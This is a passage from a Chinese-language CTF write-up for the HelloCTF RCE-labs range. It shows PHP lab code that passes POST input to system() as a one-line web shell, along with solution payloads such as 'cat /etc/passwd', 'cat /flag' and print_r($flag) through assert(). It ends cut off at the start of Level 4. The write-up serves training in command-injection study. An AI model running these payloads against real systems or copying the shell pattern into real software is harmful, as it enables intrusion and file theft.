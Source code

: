 随便输入一下，得到随机的函数 assert（）

![](https://cdn.nlark.com/yuque/0/2025/png/49936693/1737287940489-f91579d7-db33-45a8-b632-be32b143ed0f.png)

> 然后 /?action=submit
>
> content=print_r($flag)
>

![](https://cdn.nlark.com/yuque/0/2025/png/49936693/1737288174893-2ed5d4ca-eff2-4635-9db0-be9c45820afa.png)

## Level 3 命令执行
```php
<?php 
  /*
# -*- coding: utf-8 -*-
# @Author: 探姬
# @Date:   2024-08-11 14:34
# @Repo:   github.com/ProbiusOfficial/RCE-labs
# @email:  admin@hello-ctf.com
# @link:   hello-ctf.com

--- HelloCTF - RCE靶场 : 命令执行 --- 

「命令执行(Command Execution)」 通常指的是在操作系统层面上执行预定义的指令或脚本。这些命令最终的指向通常是系统命令，如Windows中的CMD命令或Linux中的Shell命令，这在语言中可以体现为一些特定的函数或者方法调用，如PHP中的`shell_exec()`函数或Python中的`os.system()`函数。

当漏洞入口点只能执行系统命令时，我们可以称该漏洞为命令执行漏洞，如下面修改过的 "一句话木马":

try POST:
    a=cat /etc/passwd;

*/

system($_POST['a']);

highlight_file(__FILE__);


?>
```

```php
a=ls /
a=cat /flag
```

![](https://cdn.nlark.com/yuque/0/2025/png/49936693/1737288431948-19a393d2-f40f-4a96-b073-4298d680e23d.png)![](https://cdn.nlark.com/yuque/0/2025/png/49936693/1737288454184-59f8a675-4c57-49a7-b3e2-5da36fb0fea1.png)

## Level 4  SHELL 运算符  
```php
 <?php 
/*
# -*- coding: utf-8 -*-
# @Author: 探姬
# @Date:   2024-08-11 14:34
# @Repo:   github.com/ProbiusOfficial/RCE-labs
# @email:  admin@hello-ctf.com
# @link:   hello-ctf.com

--- HelloCTF - RCE靶场 : 命令执行 - SHELL 运算符 --- 

https://www.runoob.com/linux/linux-shell-basic-operators.html

```